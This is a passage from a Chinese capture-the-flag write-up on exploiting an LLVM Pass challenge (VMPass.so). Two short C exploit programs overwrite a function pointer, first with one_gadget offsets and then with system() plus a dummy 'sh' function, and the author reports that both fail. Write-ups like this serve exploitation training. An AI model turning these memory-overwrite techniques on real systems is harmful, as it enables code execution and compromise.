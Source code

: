 exp：
```c
void o0o0o0o0();
void pop(int reg){};
void push(int reg){};
void store(int reg){};
void load(int reg){};
void add(int reg, int val){};
void min(int reg, int val){};

void o0o0o0o0(){
	add(1, 0x77E100);
	load(1);
	add(2, 0x4942e);
	store(1);
}
```
尝试运行，发现3个one_gadget都不行，应该是one_gadget的条件不满足。因此考虑写入system函数的地址，然后创建一个名为sh的函数，看看能不能执行到system("sh")。system函数的libc偏移为0x52290。

exp：
```c
void o0o0o0o0();
void pop(int reg){};
void push(int reg){};
void store(int reg){};
void load(int reg){};
void add(int reg, int val){};
void min(int reg, int val){};

void o0o0o0o0(){
	add(1, 0x77E100);
	load(1);
	add(2, 0x52290);
	store(1);
}

void sh(){};
```
![](https://img-blog.csdnimg.cn/4ae5415fedc64a66b9aa38fce02d8396.png)
可惜，还是不行。使用原来的libc应该是可以跑one_gadget的，因为有两个one_gadget的条件是栈中某处为0，相对来说更容易满足一些。笔者尝试通过追踪函数调用链获取到VMPass.so的加载基址，但发现VMPass.so的runOnFunction函数是通过call寄存器的方式调用的，目前尚无思路。不过这道题本身还是不难理解的，能够做到修改one_gadget就已经足够了。

下一篇文章笔者将会分析今年（2022）国赛题的satool，看一下和去年的同名题有什么区别。
